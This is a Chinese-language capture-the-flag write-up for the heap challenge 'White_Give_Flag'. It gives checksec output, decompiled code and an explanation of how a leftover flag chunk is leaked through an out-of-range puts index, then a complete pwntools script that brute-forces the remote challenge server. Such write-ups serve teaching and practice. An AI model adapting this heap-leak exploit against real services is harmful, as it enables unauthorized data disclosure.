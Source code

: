 # White_Give_Flag

## checksec

```shell
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

## IDA

```c
  v0 = time(0LL);
  srand(v0);
  qword_202120[0] = (__int64)aThereIsNoVulnI;
  qword_202128 = (__int64)aThereIsNoVulnI_0;
  qword_202130 = (__int64)aThereIsNoVulnI_1;
  qword_202138 = (__int64)aThereIsNoVulnI_2;
  qword_202140 = (__int64)aBye;
  s = (char *)malloc(0x200uLL);
  for ( i = 0LL; i < random() % 11 + 5; ++i )
  {
    memset(s, 0, 0x100uLL);
    free(s);
    v1 = random();
    s = (char *)malloc(v1 % 0x201 + 0x300);
    open("./flag", 0);
    read(3, s + 16, 0x26uLL);
    close(3);
  }
  free(s);
```

**main**

```c
void __fastcall main(__int64 a1, char **a2, char **a3)
{
  int v3; // [rsp+Ch] [rbp-4h]

  sub_B1A(a1, a2, a3);
  while ( 1 )
  {
    menu();
    v3 = choice();
    puts((const char *)qword_202120[v3 - 1]);
    switch ( v3 )
    {
      case 1:
        add();
        break;
      case 2:
        show();
        break;
      case 3:
        dele();
        break;
      case 4:
        edit();
        break;
      case 5:
        exit(0);
      default:
        puts("Invalid!");
        exit(0);
    }
  }
}
```

是个不同寻常的堆题，再进入菜单前，申请了随机size为`0x300-0x500`的chunk，并将flag，放到了偏移+0x10的位置。

`v3 = choice();`返回的是读取的字节数，`puts((const char *)qword_202120[v3 - 1]);`这里根据选项将一段字符进行了输出。

`qword_202120`附近是chunk数组的地址，它前面就是chunk[3]。

利用思路是，先随机申请三个小chunk，最后申请一个较大的chunk，这些chunk都是从包含flag的那个chunk中分割出来的，将前面的`\x00`使用`edit`进行填补。之后通过截断输入流使`v3=0`，这样puts就会输出chunk中的内容。进行爆破，若最后申请的chunk正好到flag的位置。

## exp

```python
from pwn import *
from LibcSearcher import LibcSearcher

leak = lambda name,addr: log.success('{:#x}'.format(name,hex(addr)))
# context.log_level="DEBUG"
context.arch="amd64"

local=0
binary='./White_Give_Flag'
#gdb.attach(p)
# if local:
# 	sh=process(binary)
# else:
# 	sh=remote('node4.buuoj.cn', 39123)

elf = ELF(binary,checksec=False)

def add(size):
    sh.sendlineafter('choice:','')
    sh.sendlineafter('size:',str(size))
    
def show():
	sh.sendlineafter('choice:','2')
 
def dele(index):
    sh.sendlineafter('choice:','33')
    sh.sendlineafter('index:',str(index))
    
def edit(index,content):
    sh.sendlineafter('choice:','444')
    sh.sendlineafter('index:',str(index))
    sh.sendlineafter('Content:',str(content))
    
def exit():
    sh.sendlineafter('choice:','5555')

while True:
	sh=remote('node4.buuoj.cn', 39123)
	add(0x10)
	add(0x10)
	add(0x10)
	add(0x310)
	edit(3,'+'*0x10)
	# sh.recvuntil('choice:')
	sh.shutdown_raw('send')
	flag = sh.recv()
	log.info(flag)
	if 'vnctf{' in flag or '}' in flag:
	 	exit(0)
	sh.close()
	sleep(1)
```

